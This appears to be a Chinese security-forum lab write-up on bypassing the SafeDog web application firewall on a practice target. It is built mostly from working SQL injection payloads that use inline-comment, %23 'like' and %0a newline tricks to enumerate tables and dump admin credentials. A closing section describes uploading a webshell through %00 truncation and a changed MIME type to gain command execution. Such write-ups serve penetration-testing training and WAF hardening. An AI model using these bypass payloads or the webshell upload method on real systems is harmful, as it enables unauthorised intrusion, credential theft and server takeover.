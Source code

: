 sql注入
=====

注入点绕过
-----

打开靶场，正常访问为此页面

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-13b93d097d8366641051823d44808739199df02c.png)  
尝试测试注入点，打入payload直接被狗给拦截了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-f97779fe87f5ddbc5687717bff0c5d9d1ad8b730.png)

自此过狗开始，首先试一下之前学的内联注释绕过，/\*!12345and\*/发现被拦截了，这里尝试fuzz一下，发现更改内联注释内容还可以绕过成功。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-92ab6fef80e21cf0963d0e5dec140baa2e2f6c50.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-134ec3510c7938ff410bc5c72226114d7266f56e.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-040241112353689b722b8e57f36f5ab19e38b46c.png)

通过以下语句绕过成功  
`http://192.168.2.163/sqltest/showproducts.php?id=13/*!10444and*/1=1`

内联注释绕过的原理：  
/\*!xxxxx\*/内联注释的内容数字大于版本号时会将内容注释掉，当小于版本号时仍会被mysql执行。内容需5位数，经过测试发现，数字中有4会更可能绕过成功！所以/\*!12345and\*/ 1=1等价于and 1=1

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-efe76772dcf8c2c822be1844f4b52b64e7f7b44c.png)

内联查询绕过
------

然后通过联合注入判断回显位置，但是在这一环节中自己尝试绕过很久没有成功，H老师甩我一个绕过的骚姿势，有一说一，着实牛逼。

首先通过fuzz发现没有过滤#字符。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-ab363a1604691ddc54763b07ccbdd47c5ee8423a.png)

然后通过like "\[%23\]"语句进行绕过  
`id=-13 like "[%23]" /*!10444union%0aselect*/ --+`  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-6059584bfa7c53102d4adbf970434ee66e539d79.png)

绕过原理：
=====

在mysql中为注释符，会注释掉#后面的语句。
=======================

同时like在mysql中是一个筛选的作用，那么以下语句的含义就是，先查询表中id=-13且存在#的数据（查询结果为空），执行后面的uinon select语句。

所以猜测当安全狗识别到查询语句有#，截断数据#后的语句不进行检查，然后发给服务器，但是mysql会执行该语句，从而达到绕过。  
`id=-13 like "[%23]" /*!10444union%0aselect*/--+ `  
` 注：经过验证上述的猜测不完全对，安全狗对#截断后的数据还会做检查，只不过不够严谨，所以在union select中间再加入%0a换行即可绕过。 `

然后通过穷举的方式找出回显列数，经过测试发现，共有10列，且2，6，7，8，10可以回显数据。  
`id=-13 like "[%23]" /*!10444union%0aselect*/1 --+ `  
` id=-13 like "[%23]" /*!10444union%0aselect*/1,2 --+ `  
` id=-13 like "[%23]" /*!10444union%0aselect*/1,2,3 --+ `  
` id=-13 like "[%23]" /*!10444union%0aselect*/1,2,3,4 --+ `  
` id=-13 like "[%23]" /*!10444union%0aselect*/1,2,3,4,5 --+ `  
` id=-13 like "[%23]" /*!10444union%0aselect*/1,2,3,4,5,6 --+ `  
` id=-13 like "[%23]" /*!10444union%0aselect*/1,2,3,4,5,6,7 --+ `  
` id=-13 like "[%23]" /*!10444union%0aselect*/1,2,3,4,5,6,7,8 --+ `  
` id=-13 like "[%23]" /*!10444union%0aselect*/1,2,3,4,5,6,7,8,9 --+ `  
` id=-13 like "[%23]" /*!10444union%0aselect*/1,2,3,4,5,6,7,8,9,10 --+ `

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-ebf1782fca3bc5becc9fcdee27cbafc17fb76c32.png)

通过绕过语句拿下数据库，这里对database()函数做了绕过，函数中间加入/\*!10444\*/，这里安全狗的规则猜测是database和()不能在一起。

`id=-13 like "[%23]" /*!10444union%0aselect*/1,database(/*!10444*/),3,4,5,6,7,8,9,10 --+`

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-c8021ccb696bcebf90e3df041b24977704f18513.png)

获取数据
----

通过上述的绕过方式，已经拿到数据库了，本以为可以轻松结束战斗拿到账号密码，没想到再获取数据的过程中又卡了我一个晚上，还是太菜了~

通过暴库语句可以查询到数据库（在sqllab靶场确定语句没有问题），也没有触发安全狗的规则，但是无法爆出表名。

爆表  
`id=-13 like "[%23]" /*!10444union%0aselect*/ 1,2,3,4,5,6,group_concat(table_name) from/*%23*/information_schema.tables where table_schema=database(/*!10444%0a*/),8,9,10 --+`

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-1be535243b0e2da325cccb8eb5c6ecc9eae90cf3.png)

于是乎我打开之前打过的xycms靶场，测试同样的语句，回显跟实验室靶场相同无法获取表名，但是之前打靶场的时候使用sqlmap可以把数据跑出来。

百思不得其姐下把sqlmap代理到burp，抓包看看sqlmap到底做了什么操作竟然能把数据给搞出来。结果是sqlmap把表名爆出来了，但burp抓到的sqlmap响应包中同样没有数据，离谱\\==。

这里猜测网站对数据库的操作做了限制，或者对group\_concat()语句做了限制，但是为什么sqlmap可以跑出来没有找到原因。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-6608503610157eb664594a76d52cf20e7c5399b7.png)

第二天，潘神给了个建议，不用group\_concat直接select查字段试试，果然，成了！

`id=-13 like "[%23]" /*!10444union%0aselect*/1,table_name,3,4,5,6,7,8,9,10 from/*%23*/information_schema.tables where table_schema=database(/*!10444%0a*/)--+`  
`注：from后面加如/*%23*/的方式绕过安全狗`

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-3c46d8dc99ace14e47f01c7c1c6287c74af29ebd.png)  
然后查字段，查值，最后拿到账号密码。

`爆列`  
`id=-13 like "[%23]" /*!10440union%0aselect*/ 1,column_name,3,4,5,6,7,8,9,10 from/*%23*/information_schema.columns where table_schema=database(/*!10444%0a*/) /*!10444and*/ table_name='manage_user' limit 1,2--+`  
`爆值`  
`id=-13 like "[%23]" /*!10440union%0aselect*/ 1,2,3,4,5,m_name,m_pwd,8,9,10 /*!10444from*/ /*%23*/manage_user --+`  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-d48ac826f077dba59ba3ecf63cd208af7581f474.png)  
通过md5解密拿到密码admin

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-3262d82049d2a577df2a6c916ff43d260eded29b.png)

文件上传
====

看了很多篇文件上传绕过文章，尝试了很多种方法，脏数据填充、长文件名多种绕过方式，但都没绕过被拦截了，只成功了这一种。

%00截断绕过
-------

首先搞个一句话木马

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-20da821717e5d4fdf1db5848e1a9e36aaf9bac39.png)

上传一句话木马被安全狗拦截

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-9bba030a3d0fd2e6136477ffd415821b3a4c0e21.png)

采用%00截断的方式绕过安全够，在burp中抓包，然后将%00做url解码

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-889a93e3cb1d1ee1d35b4e91f3770204a70a172b.png)  
但上传失败，网站显示文件类型不正确，网站本身也做了MIME文件校验。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-c51feb67ec94202f21505de18206bed525bf58e7.png)

这里修改文件类型为png，再次上传，上传成功，成功绕过！

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-15352d482897f143b3d93347608e2f9477217e60.png)

使用冰蝎连接马子，但是这里发现连接失败。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-69e74c7b48507ae558970b93c8f439b109db97cd.png)

访问该文件时，发现马儿被安全狗给拦截了

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-b3958e8d3d05af5d0d25213a8e7557a6d477a509.png)

再上传一个免杀的冰蝎马儿，添加%00截断，修改文件类型、最后上传连接成功，并执行命令。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-fad08648fcc47cec61d7a5b92f3ff61eb367c04a.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-c4a47cd8efe7373e7bf97be952b0ad23d8b06d29.png)